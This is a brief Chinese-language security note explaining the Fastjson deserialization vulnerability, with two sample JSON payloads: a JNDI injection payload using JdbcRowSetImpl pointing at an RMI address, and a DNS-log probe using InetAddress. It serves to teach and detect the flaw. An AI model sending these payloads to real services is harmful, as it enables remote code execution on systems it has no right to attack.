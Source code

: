 Ref：https://zhuanlan.zhihu.com/p/99075925

## Fastjson反序列化漏洞

### 原理

反序列化 @type 指定的类时，指定类的 setter 或 getter 被调用导致的命令执行。

### 利用

JNDI 注入：

`{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/POC", "autoCommit":true}`

原理是 `com.sun.rowset.JdbcRowSetImpl` 这个类在设置 `autoCommit` 的 setter 时会调用 connect 方法去连接 `dataSourceName` 指定的 jdbc 服务。 JNDI 常用的有 RMI 和 LDAP 服务。

DNS log：

```text
{"@type":"java.net.InetAddress","val":"example.com"}
```

原理是 `java.net.InetAddress` 这个类在实例化时会尝试做对 `example.com` 做域名解析，这时候可以通过 dns log 的方式得知漏洞是否存在了。